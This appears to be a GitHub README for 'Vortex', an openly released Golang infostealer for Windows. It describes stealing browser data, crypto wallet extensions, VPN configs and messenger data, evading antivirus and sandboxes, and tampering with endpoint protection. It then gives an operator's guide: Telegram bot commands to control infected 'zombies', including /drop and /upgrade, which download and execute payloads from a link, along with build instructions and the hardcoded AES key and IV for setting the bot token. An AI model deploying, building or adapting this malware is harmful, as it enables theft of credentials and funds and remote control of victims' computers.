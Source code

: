 ## Vortex InfoStealer

This is an infostealer malware written in Golang that I have wrote long time ago for some researches and I have decided to release the code for researching.

## Overview

Vortex is a Windows-focused information-stealing implant with an operator-controlled commands. It is designed to operate as both a data exfiltration tool and a flexible backdoor: it can enumerate and manage connected clients, collect high-value artifacts (browser data, wallet extensions, messaging and desktop app data, file collections, screenshots), and receive updated components from an operator. The implant emphasizes stealth and persistence through extensive anti-analysis and AV-evasion techniques.
The data will be delivered via Telegram bot and it will be controlled via Telegram bot commands.

## Disclaimer

This project is provided **for educational and research purposes only**.
It is intended to help **security researchers and defenders** understand, analyze, and improve malware detection.
Any misuse of this code for illegal or unethical activity **is strictly prohibited**.
The author assumes **no responsibility** for any damage or consequences caused by improper use.

## Key capabilities

- **C2 Capabilities**: The implant supports remote status checks and enumeration of connected clients to identify active or available victims. It can instruct clients to perform actions such as retrieving screenshots, collecting files (images/documents), toggling data collection/upload behavior, and receiving upgraded binaries.

- **Payload distribution/backdoor**: The vortex implant can accept and execute secondary payloads supplied by the operator (documented here as a capability only).

- **Data Stealing**: Collecting much possible data include browser profiles, browser extensions (notably crypto wallet extensions), VPN client config files, messenger applications, and common desktop tools that may store credentials or sessions.

- **Evasion & anti-analysis**: Vortex implant contains sandbox/VM detection, anti-debugging techniques, heavy binary obfuscation and packing, and mechanisms intended to frustrate static and dynamic analysis.

- **Endpoint interference**: Capabilities to tamper with or disable endpoint protections have been observed or claimed; defenders should treat attempts to modify security tooling as high-risk indicators.

## Primary targets and affected software categories

> **(Listed for defensive prioritization; useful for threat-hunting and AV signature tuning.)**

| Browsers     | VPN       | CryptoWallets | CryptoWallets Extensions | Messengers | Others     |
| ------------ | --------- | ------------- | ------------------------ | ---------- | ---------- |
| 7Star        | NordVPN   | Zcash         | Tronlink                 | Discord    | FileZilla  |
| Cent         | ProtonVPN | Armory        | NiftyWallet              | Telegram   | Putty      |
| Chrome       | OpenVPN   | Exodus        | Metamask                 | Element    | Teamviewer |
| Chromium     |           | Ethereum      | MathWallet               | Signal     | WinSCP     |
| Edge         |           | Electrum      | Coinbase                 | Skype      | Steam      |
| QQBrowser    |           | Atomic        | BinanceChain             | Whatsapp   | Uplay      |
| Opera        |           | Guarda        | BraveWallet              |            |            |
| OperaNeon    |           | Coinomi       | GuardaWallet             |            |            |
| Amigo        |           | Jaxx          | EqualWallet              |            |            |
| Chedot       |           | Binance       | JaxxxLiberty             |            |            |
| Brave        |           |               | BitAppWallet             |            |            |
| ComodoDragon |           |               | iWallet                  |            |            |
| CocCoc       |           |               | Wombat                   |            |            |
| AVGBrowser   |           |               | YoroiWallet              |            |            |
| Slimjet      |           |               | TonCrystal               |            |            |
| Sputnik      |           |               | Coin98Wallet             |            |            |
| Vivaldi      |           |               | Phantom                  |            |            |
| Firefox      |           |               | GuildWallet              |            |            |
| Waterfox     |           |               | Oxygen                   |            |            |
| Palemoon     |           |               | LiqualityWallet          |            |            |
| Icecat       |           |               | Iconex                   |            |            |
|              |           |               | Mobox                    |            |            |
|              |           |               | XinPay                   |            |            |
|              |           |               | Sollet                   |            |            |
|              |           |               | Slope                    |            |            |
|              |           |               | Starcoin                 |            |            |
|              |           |               | Swash                    |            |            |
|              |           |               | Finnie                   |            |            |
|              |           |               | Keplr                    |            |            |
|              |           |               | Crocobit                 |            |            |
|              |           |               | AtomWallet               |            |            |
|              |           |               | KardiaChain              |            |            |
|              |           |               | TerraStation             |            |            |
|              |           |               | BoltX                    |            |            |
|              |           |               | RoninWallet              |            |            |
|              |           |               | XdefiWallet              |            |            |
|              |           |               | Nami                     |            |            |
|              |           |               | MultiversXDeFiWallet     |            |            |
|              |           |               | PaliWallet               |            |            |
|              |           |               | TempleTezosWallet        |            |            |
|              |           |               | ExodusWeb3Wallet         |            |            |

## Telegram Bot Commands

| Bot Command                                                 | Description                                                                                                                                     |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| /check `<ZOMBIE_ID>`                                        | Checks if the zombie host is online                                                                                                             |
| /check_all                                                  | Checks all the available zombies and who is connected                                                                                           |
| /drop `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<EXE_NAME>` `<PATH>` | Download and execute an exe file on specific zombie EX: /drop 11111-22222-3333-4444 http://file.io/payload.exe payload.exe                      |
| /screenshot `<ZOMBIE_ID>`                                   | Take screenshot of zombie desktop screen                                                                                                        |
| /get_data `<ZOMBIE_ID>` `<DATATYPE>` `<PATH>`               | Collect (images/documents) data                                                                                                                 |
| /disable_upload `<ZOMBIE_ID>`                               | Disable data dumped from uploading of specific zombie                                                                                           |
| /enable_upload`<ZOMBIE_ID>`                                 | Enable data uploading of specific zombie (Enabled by default)                                                                                   |
| /upgrade `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<IMPLANT_NAME>`   | Upgrades the current agathos implant with newer updated version EX: /upgrade 11111-22222-3333-4444 https://file.io/agathos.exe chrome_patch.exe |

## Requirements to compile

It needs to be compiled on linux machine, any type of linux distribution is compatible as long as it have Go packages and mingw compilers. I will use ubuntu here as an example.

- Install the required packages.
```bash
sudo apt install golang gcc-mingw-w64 make
```

- Start to compile (`release_x64` , `release_x32`, `debug`)
```bash
make release_x64
```

## Telegram Configuration

Start to make telegram bot using @BotFather and get the telegram token and chat ID.

Then encrypt the token and the chat ID with AES Encryption method "CBC Mode" with the following Cipher Key and IV.

- Key
```c
0xD5, 0x03, 0xE6, 0xE0, 0x63, 0x52, 0x7C,
0xB6, 0x24, 0xFE, 0x03, 0x63, 0xFF, 0xF9,
0xB3, 0xBD, 0x20, 0x94, 0x1C, 0xAF, 0x70,
0x84, 0x92, 0xB6, 0x90, 0x5F, 0x66, 0x43,
0x4D, 0xCA, 0x72, 0x77
```
- IV
```c
0x27, 0xD8, 0xB1, 0xF0, 0xDB, 0x3C, 0xAB,
0x3E, 0x20, 0x20, 0x21, 0x56, 0xBA, 0x1B,
0x37, 0x13
```

And then encode the RAW output with base64 and place it in `main.go` file.
